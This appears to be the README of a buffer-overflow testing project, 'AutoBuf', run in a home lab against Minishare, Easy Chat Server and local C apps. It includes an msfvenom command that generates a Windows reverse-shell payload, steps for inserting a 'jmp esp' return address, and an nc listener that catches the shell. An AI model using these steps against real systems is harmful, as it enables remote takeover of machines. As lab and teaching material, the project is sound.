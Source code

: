 # AutoBuf
This project tests applications for buffer-overflow vulnerabilities. Tested with two local C apps, Minishare remote application, Easy share application.

INSTALLATIONS AND TOOLS
1. Windows 10/11(Victim Machine)
2. Kali Linux over VirtualBox(Attack Machine)
3. Immunity Debugger(On Victim Machine)
4. Python 3.8
5. Pwntools
6. Gnu Debugger
7. Minishare 3.4
8. Easy Chat Server 1.4.1

CONFIGURATION AND SETTING UP(IMMUNITY DEBUGGER)
1. Open Immunity Debugger as administrator on windows
2. Open Minishare 1.4.1 as admin on windows
3. Attach Minishare to Immunity Debugger
4. View Executable Modules, find SHELL32.dll and double click
5. Find ‘jmp esp’ command address and take note of it
6. Open Kali linux
7. Find your kali ip address
8. Run(msfvenom -p windows/shell_reverse_tcp LHOST=#ipaddress LPORT=4444 x86/shikata_ga_nai -b “\x00\x0a\x0d” -f py) in your kali machine to generate reverse shell for your ip and port
9. Open BufAutoDetext, 
* Input the result of the above command as the new value for the ‘buf’ variable.
* Input  the address gotten from ‘jmp esp’ in reverse into the shellcode
10. Run BufAutoDetect.py and open a new terminal to listen on port 4444

RUNNING AND TESTING LOCAL APPS
1. Start and load up kali linux in the Virtual Box.
2. Open the new Kali Linux terminal and navigate to the base folder for AutoBuf.
3. Compile C apps with... gcc app.c/app1.c -o app/app1 -fno-stack-protector -no-pie
4. Run the command...python3 BufAutoDetect.py local -p n, then add directory to C apps
5. Payloads include n,an,l

RUNNING AND TESTING MINISHARE REMOTE APPS
1. Start Kali Linux on the attack machine and minishare on the victim machine.
2.  Open the new Kali Linux terminal and navigate to the base folder for AutoBuf.
3. Run the command...python3 BufAutoDetect.py remote1 -ip #ipaddressofwindows -s #portofMinishare
4. Then open a new terminal and listen to the output of the script using ...nc -l -p 4444

RUNNING AND TESTING EASYCHAT SERVER REMOTE APPS
1. Start Kali Linux on the attack machine and easy chatserver on the victim machine.
2.  Open the new Kali Linux terminal and navigate to the base folder for AutoBuf.
3. Run the command...python3 BufAutoDetect.py remote2 -ip #ipaddressofwindows -s #portofEasychatserver
4. Calc.exe runs as easychat is overflowed





Video demonstration and Pictures to be found in 'processes' folder










